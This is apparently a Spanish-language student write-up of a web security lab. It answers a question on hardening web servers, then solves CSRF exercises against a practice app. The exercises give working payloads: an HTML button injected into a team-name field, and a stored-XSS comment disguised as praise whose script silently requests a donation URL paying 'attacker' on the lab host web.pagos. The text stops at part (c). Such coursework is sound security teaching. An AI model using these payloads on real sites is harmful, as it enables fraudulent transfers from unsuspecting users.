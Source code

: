 ### Parte 4 - Servidores web

¿Qué medidas de seguridad implementariaís en el servidor web para reducir el riesgo a ataques?

- Sanitarizar todos los formularios, controlando los datos de entrada y protegiendo así de posibles ataques de injección SQL o XSS.

- Proteger ante CSRF implementando tokens en formularios para asegurarse de que las solicitudes provengan de usuarios legítimos y no de scripts maliciosos.

- Utilizar cifrado SSL para cifrar la comunicación entre el cliente y el servidor, protegiendo así los datos sensibles que se muevan en dicha comunicación.

- Implementa un sistema de monitoreo y registro de logs para detectar actividad sospechosa y responder rápidamente a posibles incidentes.

### Parte 5 - CSRF

**a)** Editad un jugador para conseguir que, en el listado de jugadores list\_players.php aparezca, debajo del nombre de su equipo y antes de show/add comments un botón llamado Profile que corresponda a un formulario que envíe a cualquiera que haga clic sobre este botón a esta dirección que hemos preparado.

En el campo : Team name

Introduzco :
```html
DAM
<br><br>
<a href="http://web.pagos/donate.php?amount=100&receiver=attacker">
    <button type="button">Profile</button>
</a>
```

**b)** Una vez lo tenéis terminado, pensáis que la eficacia de este ataque aumentaría si no necesitara que elusuario pulse un botón. Con este objetivo, cread un comentario que sirva vuestros propósitos sin levantar ninguna sospecha entre los usuarios que consulten los comentarios sobre un jugador (show\_comments.php).

```javascript
He has something special
<script>

const opciones = {
      method: 'GET',
      mode: 'no-cors',
    };

await fetch("http://web.pagos/donate.php?amount=100&receiver=attacker", opciones);

</script>
```

**c)** Pero web.pagos sólo gestiona pagos y donaciones entre usuarios registrados, puesto que, evidentemente, le tiene que restar los 100€ a la cuenta de algún usuario para poder añadirlos a nuestra cuenta.
